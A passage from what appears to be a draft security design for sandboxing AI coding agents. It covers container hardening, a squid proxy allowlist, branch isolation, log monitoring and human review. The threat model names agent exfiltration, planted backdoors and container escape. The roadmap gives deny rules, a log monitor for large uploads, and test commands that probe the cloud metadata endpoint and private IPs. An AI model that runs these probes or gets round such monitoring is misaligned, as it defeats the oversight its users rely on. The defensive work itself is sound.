| Edit files in /workspace | No | Isolated to agent branch, reversible |
| Install packages (npm, pip) | No | Isolated container, via proxy |
| Run builds/tests | No | Isolated container, no host impact |
| Commit code | No | Tracked in git, reviewable |
| Push to local remote | No | Still on agent branch, reviewable |
| Push to origin (first time) | Yes | Explicit authorization for remote push |
| Delete large portions of code | No¹ | Git snapshot created automatically |
| Modify CI/CD files | No² | Flagged in review, requires user merge |
| Access non-allowlisted domain | No³ | Blocked by squid, logged |
| Request tier-3 credentials | Yes | High-risk credentials need approval |

¹ Snapshot tag created automatically  
² Automated scan flags suspicious changes  
³ Silently blocked, visible in squid logs if user checks

**One-Time Setup Flow:**
```
User: launch-agent copilot

System: 🚀 Launching in safe-unrestricted mode
        ✅ Host isolation: Enabled
        ✅ Network: Squid proxy (allowlist + logging)
        ✅ Branch: copilot/session-1 (isolated)
        ✅ Credentials: Read-only, scoped
        ✅ Container: Non-root, capabilities dropped
        
        All Tier 1 and Tier 2 operations will run without prompts.
        Changes are isolated to agent branch for your review.
        
[Container starts, agent works freely]
```

**Prompt Examples (Rare):**

```
⚠️  Branch 'copilot/session-1' already exists with unmerged commits.
    This will replace it.
    
    Continue? [y/N]
```

```
🔐 Agent requested production AWS credentials (tier-3).
    Operation: Deploy to production
    Risk: High
    
    Allow? [y/N]
```

---

## Phase 5: Architecture Diagrams

### 5.1 Container Architecture (Mermaid)



### 5.2 Data Flow: Credentials



### 5.3 Network Flow: Squid Proxy



### 5.4 Trust Boundaries

```mermaid
graph TB
    subgraph TB1["Trust Boundary 1: Host ↔ Container"]
        Host["Host OS & Filesystem"]
        Container["Container Runtime"]
        
        Host -.isolated from.-> Container
    end
    
    subgraph TB2["Trust Boundary 2: Container ↔ Network"]
        Agent["Agent Process"]
        Proxy["Network Proxy"]
        
        Agent -.filtered via.-> Proxy
    end
    
    subgraph TB3["Trust Boundary 3: Agent ↔ Credentials"]
        AgentCode["Agent Code<br/>(Untrusted)"]
        Creds["Credentials<br/>(Read-only)"]
        
        AgentCode -.read-only access.-> Creds
    end
    
    subgraph TB4["Trust Boundary 4: Agent Branch ↔ Main"]
        AgentBranch["Agent Branch<br/>(copilot/session-1)"]
        MainBranch["Main Branch"]
        
        AgentBranch -.requires user review.-> MainBranch
    end
    
    style TB1 fill:#ffe1e1
    style TB2 fill:#e1e8ff
    style TB3 fill:#fff4e1
    style TB4 fill:#e1f5e1
```



---

## Phase 6: Implementation Roadmap

### 6.1 Critical Priority (Security Gap)

**Issue:** `launch-agent.ps1` missing `--cap-drop=ALL`

**Files to Modify:**
1. `/scripts/launchers/launch-agent.ps1` (line ~611)
2. `/scripts/launchers/launch-agent.sh` (bash equivalent, if exists)

**Changes:**
```powershell
# Add after line 611 (after --network)
$dockerArgs += "--cap-drop=ALL"
```

**Testing:**
- Verify agent container starts successfully
- Verify normal operations (git, file edit, npm install) work
- Verify no capability-dependent operations are broken

**Risk:** Low (run-agent.ps1 already uses this successfully)

### 6.2 High Priority (Network Hardening)

**Issue:** Squid proxy can be enhanced for better security

**Files to Modify:**
1. `/docker/proxy/squid.conf`
2. `/docker/proxy/entrypoint.sh`

**Changes:**
```squid
# Add to squid.conf

# Block cloud metadata
acl metadata_endpoints dst 169.254.169.254
http_access deny metadata_endpoints

# Block private IPs
acl private_ips dst 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16
http_access deny private_ips

# Rate limiting
reply_body_max_size 100 MB
request_body_max_size 10 MB
```

**Testing:**
- Verify metadata endpoint is blocked: `curl http://169.254.169.254` should fail
- Verify private IPs are blocked: `curl http://192.168.1.1` should fail
- Verify allowlisted domains still work

**Risk:** Medium (could break some legitimate use cases, test thoroughly)

### 6.3 Medium Priority (Filesystem Safety)

**Issue:** No git snapshots before destructive operations

**New Files to Create:**
1. `/scripts/runtime/git-safe-operation` (wrapper script)
2. Add automatic snapshot tagging to entrypoint.sh

**Changes:**
```bash
# Create /usr/local/bin/git-safe-operation
#!/bin/bash
set -euo pipefail

OPERATION=$1
shift

# Create snapshot tag before destructive git ops
if [[ "$OPERATION" =~ ^(reset|rebase|filter-branch)$ ]]; then
    SNAPSHOT_TAG="agent-snapshot-$(date +%s)"
    git tag "$SNAPSHOT_TAG" 2>/dev/null || true
    echo "📸 Snapshot: $SNAPSHOT_TAG" >&2
fi

git "$OPERATION" "$@"
```

**Testing:**
- Verify snapshot tags are created
- Verify operations still work normally
- Verify rollback works: `git reset --hard <snapshot-tag>`

**Risk:** Low (additive, doesn't change behavior)

### 6.4 Medium Priority (Monitoring)

**Issue:** No alerting on suspicious patterns

**New Files to Create:**
1. `/scripts/runtime/monitor-agent.sh` (background monitor)
2. `/scripts/utils/analyze-squid-logs.py` (log analysis)

**Changes:**
```bash
# monitor-agent.sh - runs in background
#!/bin/bash

while true; do
    # Check for large uploads in squid logs
    if tail -n 100 /var/log/squid/access.log | grep -q "POST.*[0-9]\{8,\}"; then
        echo "⚠️  Alert: Large upload detected" >&2
    fi
    
    # Check for non-allowlisted domains
    if tail -n 100 /var/log/squid/access.log | grep -q "TCP_DENIED"; then
        echo "⚠️  Alert: Blocked domain access attempted" >&2
    fi
    
    sleep 60
done
```

**Testing:**
- Verify alerts trigger on test conditions
- Verify no false positives under normal use

**Risk:** Low (monitoring only, no enforcement)

### 6.5 Low Priority (Read-only Root FS)

**Issue:** Root filesystem is writable (not needed)

**Files to Modify:**
1. `/scripts/launchers/launch-agent.ps1`
2. `/scripts/launchers/run-agent.ps1`

**Changes:**
```powershell
# Add read-only root FS with writable workspace and tmp
$dockerArgs += "--read-only"
$dockerArgs += "--tmpfs", "/tmp:rw,noexec,nosuid,size=2g"
```

**Testing:**
- Verify agent can't write to /usr, /etc, /var
- Verify agent CAN write to /workspace and /tmp
- Verify builds and installs still work (use /tmp for temp files)

**Risk:** Medium-High (could break npm/pip installs if they need /root or /home writable)

**Recommendation:** Test thoroughly in isolated environment first.

### 6.6 Documentation Updates

**Files to Update:**
1. `/SECURITY.md` - Add safe-unrestricted mode description
2. `/README.md` - Update security features list
3. `/USAGE.md` - Add network mode recommendations
4. New: `/docs/safe-unrestricted-mode.md` - Detailed guide

**Content:**
- Explain safe-unrestricted as default
- Document network modes and when to use each
- Explain branch isolation and review workflow
- Document monitoring and logging

---

## Phase 7: Risk vs Mitigation Summary

### Risk Matrix (After Mitigations)

| Risk Category | Pre-Mitigation | Post-Mitigation | Residual Risk | Primary Defense |
|---------------|----------------|-----------------|---------------|-----------------|
| **Destructive Local Changes** | High | Low | Low | Branch isolation + git history |
| **Data Exfiltration** | Critical | Medium | Medium¹ | Network proxy + logging |
| **Lateral Movement** | High | Medium | Medium¹ | Credential scoping + network filtering |
| **Persistence/Backdoors** | High | Medium | Medium² | Code review + automated scanning |
| **Silent Weakening** | Medium | Low | Low² | Code review + diff analysis |
| **Container Escape** | Medium³ | Very Low | Very Low | Capabilities dropped + no docker.sock |
| **Host Tampering** | Medium³ | Very Low | Very Low | No host mounts + no privileged mode |

¹ **Inherent to function:** Agents need credentials and network to work. Exfiltration and lateral movement cannot be completely eliminated while maintaining functionality. Mitigation: Scoped credentials, monitoring, and allowlisting.

² **User review is final defense:** Agent can inject malicious code on its branch, but cannot auto-merge to main. Mitigation: Automated security scanning flags suspicious changes for closer review.

³ **Before fix:** Gap in launch-agent.ps1 (missing --cap-drop). **After fix:** No known escape path.

### Mitigation Effectiveness

| Mitigation | Effectiveness | Implementation Complexity | Breaking Risk |
|------------|---------------|---------------------------|---------------|
| Add --cap-drop=ALL to launch-agent | ⭐⭐⭐⭐⭐ | Very Low | Very Low |
| Enhanced squid blocking (metadata, private IPs) | ⭐⭐⭐⭐ | Low | Low |
| Git snapshot before destructive ops | ⭐⭐⭐ | Low | Very Low |
| Read-only root filesystem | ⭐⭐⭐ | Medium | Medium |
| Automated security scanning on branches | ⭐⭐⭐⭐ | High | Low |
| Credential scoping (short-lived tokens) | ⭐⭐⭐⭐ | Medium | Low |
| Seccomp/AppArmor profiles | ⭐⭐⭐ | Medium | Medium |

**Recommended Implementation Order:**
1. ✅ --cap-drop=ALL (critical security fix)
2. ✅ Enhanced squid blocking (high security value, low risk)
3. ✅ Git snapshots (safety net, no risk)
4. ⏭️ Credential scoping (requires infrastructure changes)
5. ⏭️ Automated scanning (requires tooling integration)
6. ⏭️ Read-only root FS (test extensively first)
7. ⏭️ Seccomp/AppArmor (optional hardening)

---

## Conclusion

### Can We Get to "Click Once and It's Safe"?

**Answer: Yes, with caveats.**

**What "safe-unrestricted" achieves:**
- ✅ Container escape / host tampering: **Structurally prevented**
- ✅ Destructive changes: **Limited to agent branch, reversible**
- ✅ Unauthorized network access: **Filtered via allowlist, logged**
- ⚠️ Data exfiltration: **Reduced but not eliminated** (inherent tradeoff)
- ⚠️ Lateral movement: **Limited by credential scope** (inherent tradeoff)
- ⚠️ Code injection: **Isolated to agent branch, requires user review**

**The one-click model:**
```bash
launch-agent copilot  # No additional flags needed
```

This command would launch an agent in safe-unrestricted mode with:
- All Tier 1/2 operations silent and allowed
- Structural safety via container hardening
- Network access via squid proxy with allowlist
- Branch isolation for all changes
- Comprehensive logging for forensics
- User review as final gate to main branch

**Remaining prompt scenarios:**
1. Branch conflict (pre-existing branch with unmerged commits)
2. First push to remote origin (explicit authorization)
3. Tier-3 credential requests (if implemented)

**Fundamental limitations:**
- Agents need credentials to be useful (model APIs, GitHub)
- Agents need network to use MCPs and fetch docs
- If agent has credentials + network, exfiltration is technically possible
- User review is the final defense against malicious code injection

**The safety model:**
- **Prevent** what we can (host escape, system tampering)
- **Detect** what we can't prevent (exfiltration via logs)
- **Contain** damage (branch isolation, reversible operations)
- **Monitor** for forensics (squid logs, git audit trail)
- **Review** before merging (automated scanning + human judgment)

**Verdict:** Safe-unrestricted mode is achievable and provides excellent protection against accidental damage and most attacks, while accepting that perfect security with full functionality is impossible. The proposed architecture creates multiple defense layers where breaking one doesn't compromise the others.

---

## Appendices

### A. File References

**Security-Critical Files:**
- `/docker/base/Dockerfile` - Container base image
- `/scripts/launchers/launch-agent.ps1` - Container launcher (persistent)
- `/scripts/launchers/run-agent.ps1` - Container launcher (ephemeral)
- `/scripts/runtime/entrypoint.sh` - Container entrypoint
- `/docker/proxy/squid.conf` - Network proxy configuration
- `/docker/proxy/entrypoint.sh` - Proxy initialization
- `/SECURITY.md` - Security documentation

**Configuration Files:**
- `/config.toml` - MCP server configuration
- `/agent-configs/AGENTS.md` - Agent instructions

### B. Security Checklist for Reviewers

When reviewing agent changes:
- [ ] Check git diff for suspicious changes to CI/CD files
- [ ] Review any new dependencies (package.json, requirements.txt)
- [ ] Look for obfuscated code or unusual patterns
- [ ] Check for modifications to security checks or auth logic
- [ ] Review squid logs for unusual network activity
- [ ] Verify no sensitive data in commit messages
- [ ] Check for commits that weaken input validation
- [ ] Review changes to git hooks or automation scripts

### C. Incident Response

If you suspect agent compromise:
1. Stop the container immediately: `docker stop <container-name>`
2. Review squid logs: `docker logs <container-name>-proxy`
3. Review git diff: `git diff main agent/<branch>`
4. Check for exfiltration in logs (look for large POST requests)
5. Review all credentials used, consider rotating
6. If malicious code found, delete agent branch: `git branch -D agent/<branch>`
7. Report incident details for future mitigation improvements

### D. Testing Procedure for Hardening Changes

```bash
# Test 1: Verify container starts with enhanced security
launch-agent copilot --network-proxy squid

# Test 2: Verify normal operations work
# Inside container:
git status
npm install express
dotnet build
python -m pip install requests

# Test 3: Verify blocked operations fail
# Inside container:
curl http://169.254.169.254  # Should fail (metadata)
curl http://192.168.1.1      # Should fail (private IP)
docker ps                     # Should fail (no docker CLI)
sudo apt update              # Should fail (no sudo)

# Test 4: Verify allowed operations succeed
# Inside container:
curl https://api.github.com   # Should work
npm install express          # Should work
git push local $(git branch --show-current)  # Should work

# Test 5: Verify container isolation
# On host:
docker exec <container> ls /var/run/docker.sock  # Should fail
docker exec <container> ls /proc  # Should only see container processes
```

### E. Glossary

- **Container Escape:** Breaking out of container to access host system
- **Capability:** Linux kernel privilege (e.g., CAP_NET_ADMIN, CAP_SYS_ADMIN)
- **Seccomp:** Secure computing mode - syscall filtering
- **AppArmor:** Mandatory Access Control system
- **Prompt Injection:** Attack where malicious instructions are hidden in code/comments
- **Lateral Movement:** Using compromised credentials to access other systems
- **Branch Isolation:** Confining agent changes to dedicated git branch
- **Squid:** HTTP proxy server with filtering and logging
- **MCP:** Model Context Protocol - standard for AI agent tools

---

**Document Status:** DRAFT  
**Next Review:** After implementation of Phase 6.1-6.3  
**Owner:** Security Team  
**Last Updated:** 2025-11-17
